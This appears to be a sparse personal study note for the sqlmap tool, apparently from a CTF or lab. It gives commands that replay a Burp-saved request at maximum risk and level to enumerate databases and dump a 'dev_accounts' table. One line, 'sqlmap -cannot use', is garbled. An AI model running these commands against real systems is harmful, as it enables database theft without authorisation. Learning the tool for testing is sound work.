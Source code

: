 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[sqlmap]]  
___

## Description:


## Installation


## Commands

check certificate information


```
sqlmap -cannot use
```

Save the request from burp in the proxy tab by going to action, and then save item.

Then run sqlmap with the following (burp1 is the file saved from burp):
```

sqlmap -r burp1 --risk=3 --level=5 -databases --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery --tables --batch

sqlmap -r burp1 --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch

```
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (12:22 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
